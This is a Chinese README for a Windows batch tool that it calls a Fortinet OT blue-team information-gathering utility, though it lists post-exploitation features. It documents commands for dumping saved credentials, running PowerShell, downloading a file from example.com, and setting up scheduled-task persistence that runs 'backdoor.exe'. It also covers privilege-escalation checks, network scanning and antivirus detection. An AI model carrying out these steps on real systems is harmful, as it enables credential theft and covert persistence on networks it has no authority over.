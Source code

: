 **这是一个Fortinet的OT Blueteam的Windows端的设备内网信息收集工具。**

## 功能概述

这个工具集成了多种后渗透阶段常用的功能，包括：
- 系统信息收集
- 网络信息收集
- 用户账户信息
- 文件操作
- 权限提升检测
- 网络扫描
- 安全产品检测
- 持久化功能

## 基本用法

```
BlueTeam-ICS-Station.bat -h           查看帮助信息
BlueTeam-ICS-Station.bat -w           查看系统进程
BlueTeam-ICS-Station.bat -all         一键内网信息收集
BlueTeam-ICS-Station.bat -kill 进程名  杀死指定进程
```

## 详细功能说明

### 信息收集

```
BlueTeam-ICS-Station.bat -ip          显示所有IP配置信息
BlueTeam-ICS-Station.bat -a           显示系统信息
BlueTeam-ICS-Station.bat -b           显示本地计算机上的所有服务
BlueTeam-ICS-Station.bat -c           显示计划任务的详细信息
BlueTeam-ICS-Station.bat -d           显示所有工作站统计信息
BlueTeam-ICS-Station.bat -e           显示本地计算机上的用户账户
BlueTeam-ICS-Station.bat -f           显示本地管理员组的成员
BlueTeam-ICS-Station.bat -g           显示所有监听端口和关联的进程信息
BlueTeam-ICS-Station.bat -i           显示本地计算机上的所有共享资源
BlueTeam-ICS-Station.bat -j           使用wmic显示所有共享资源的名称、路径和状态
BlueTeam-ICS-Station.bat -k           使用route print显示路由表
BlueTeam-ICS-Station.bat -l           使用arp -a显示所有ARP缓存条目
BlueTeam-ICS-Station.bat -m           使用whoami /all显示有关当前用户的详细信息
BlueTeam-ICS-Station.bat -n           显示工作站配置信息
BlueTeam-ICS-Station.bat -o           使用fsutil fsinfo drives显示所有可用驱动器
BlueTeam-ICS-Station.bat -dns         显示DNS解析器缓存
BlueTeam-ICS-Station.bat -firewall    显示所有防火墙规则
BlueTeam-ICS-Station.bat -procs       显示详细的进程信息，包括命令行
BlueTeam-ICS-Station.bat -creds       显示凭据管理器中保存的凭据
```

### 文件操作

```
BlueTeam-ICS-Station.bat -cc 源路径 目标路径    复制文件
BlueTeam-ICS-Station.bat -cv 源路径 目标路径    移动文件
BlueTeam-ICS-Station.bat -x 文件路径 内容       创建文件并写入内容
BlueTeam-ICS-Station.bat -v 目录路径           查看指定目录中的文件
```

### 高级功能

```
BlueTeam-ICS-Station.bat -ps "命令"            执行PowerShell命令
BlueTeam-ICS-Station.bat -download URL 保存路径  从URL下载文件
BlueTeam-ICS-Station.bat -persist 任务名 命令    创建计划任务以实现持久化
BlueTeam-ICS-Station.bat -privesc              检查权限提升机会
BlueTeam-ICS-Station.bat -netscan              扫描本地网络中的活动主机
BlueTeam-ICS-Station.bat -av                   检测系统上安装的安全产品
```

## 使用示例

### 基本信息收集
```
BlueTeam-ICS-Station.bat -ip
```
显示当前系统的IP配置信息，包括IP地址、子网掩码、网关等。

### 下载文件
```
BlueTeam-ICS-Station.bat -download http://example.com/tool.exe c:\temp\tool.exe
```
从指定URL下载文件并保存到本地路径。

### 检查权限提升机会
```
BlueTeam-ICS-Station.bat -privesc
```
检查系统中可能存在的权限提升向量，如AlwaysInstallElevated注册表项、未引用的服务路径等。

### 创建持久化
```
BlueTeam-ICS-Station.bat -persist "MaliciousTask" "c:\temp\backdoor.exe"
```
创建一个名为"MaliciousTask"的计划任务，在用户登录时执行指定命令。

### 扫描本地网络
```
BlueTeam-ICS-Station.bat -netscan
```
扫描本地网络中的活动主机，并检查常见开放端口。

### 检测安全产品
```
BlueTeam-ICS-Station.bat -av
```
检测系统上安装的防病毒软件、EDR和其他安全产品。

## 注意事项

- 本工具仅用于授权的OT安全蓝队评估
- 在使用前请确保获得适当的授权
- 某些功能可能会触发安全产品的告警
- 建议在测试环境中先行测试功能
